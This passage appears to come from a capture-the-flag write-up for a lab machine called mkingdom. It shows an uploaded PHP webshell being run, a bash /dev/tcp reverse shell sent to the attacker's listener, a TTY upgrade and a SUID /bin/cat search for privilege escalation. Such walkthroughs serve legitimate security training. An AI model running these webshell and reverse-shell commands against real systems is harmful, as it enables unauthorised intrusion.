 We are able to reach our webshell with the displayed path and run commands.

```console
$ curl -s 'http://10.10.69.96:85/app/castle/application/files/5317/1840/1527/shell.php?cmd=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data),1003(web)
```
{: .wrap }

Using a reverse shell payload like `bash -c 'bash -i >& /dev/tcp/10.11.72.22/443 0>&1'`, we get a shell as www-data.

```console
$ curl -s 'http://10.10.69.96:85/app/castle/application/files/5317/1840/1527/shell.php' -G --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.11.72.22/443 0>&1'"
```
{: .wrap }

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.69.96] 40262
bash: cannot set terminal process group (1313): Inappropriate ioctl for device
bash: no job control in this shell
www-data@mkingdom:/var/www/html/app/castle/application/files/5317/1840/1527$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<n/files/5317/1840/1527$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@mkingdom:/var/www/html/app/castle/application/files/5317/1840/1527$ export TERM=xterm
<html/app/castle/application/files/5317/1840/1527$ export TERM=xterm
www-data@mkingdom:/var/www/html/app/castle/application/files/5317/1840/1527$ ^Z
zsh: suspended  nc -lvnp 443

$ stty raw -echo; fg
[1]  + continued  nc -lvnp 443

www-data@mkingdom:/var/www/html/app/castle/application/files/5317/1840/1527$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),1003(web)
```

## Shell as mario

### SUID binary to discover credentials

Checking for `suid` binaries, we discover `/bin/cat`.

```console
www-data@mkingdom:/var/www$ find / -type f -perm -u=s 2>/dev/null
/bin/cat
```

It is owned by the `toad` user.

```console
www-data@mkingdom:/var/www$ ls -la /bin/cat
-rwsr-xr-x 1 toad root 47904 Mar 10  2016 /bin/cat
```
